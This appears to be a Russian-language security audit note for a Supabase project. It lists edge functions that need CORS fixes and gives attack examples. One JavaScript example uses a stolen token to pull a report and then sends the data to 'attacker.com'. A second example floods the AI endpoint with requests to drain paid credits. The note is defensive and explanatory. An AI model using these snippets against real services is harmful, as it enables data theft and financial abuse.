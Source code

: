 ### ✅ Критичные функции (Priority 1)

1. **ai-orchestrator** ✅ - ИСПРАВЛЕНО
   - Самая опасная: AI запросы (дорого)
   - SQL queries (доступ к данным)
   - Создание графиков

### ⏳ Еще нужно исправить (30 функций)

**Критичные (Priority 2):**
- `create-checkout` 🔴 - Платежи
- `customer-portal` 🔴 - Управление подписками
- `generate-report` 🔴 - Экспорт данных
- `stripe-webhook` 🔴 - Обработка платежей

**Важные (Priority 3):**
- `ai-analyze-schema` 🟠
- `ai-create-schema` 🟠
- `composite-views-*` 🟠
- И еще 23 функции...

---

## 📈 РЕАЛЬНЫЕ ПРИМЕРЫ АТАК

### Пример 1: Кража отчета
```javascript
// Злоумышленник на своем сайте:
async function stealData() {
  const response = await fetch('https://your-project.supabase.co/functions/v1/generate-report', {
    method: 'POST',
    headers: {
      'Authorization': 'Bearer ' + victimToken,  // Украденный токен
    },
    body: JSON.stringify({ database_id: 'uuid-here' })
  });

  const data = await response.json();

  // Отправляем украденные данные себе
  await fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
}
```

**До фикса:** ✅ Работает! Данные украдены!
**После фикса:** ❌ CORS error, атака заблокирована!

### Пример 2: Расход AI credits
```javascript
// Злоумышленник:
for (let i = 0; i < 100000; i++) {
  fetch('https://your-project.supabase.co/functions/v1/ai-orchestrator', {
    method: 'POST',
    body: JSON.stringify({
      message: 'Generate very long response about...',  // $0.01 за запрос
    })
  });
}
```
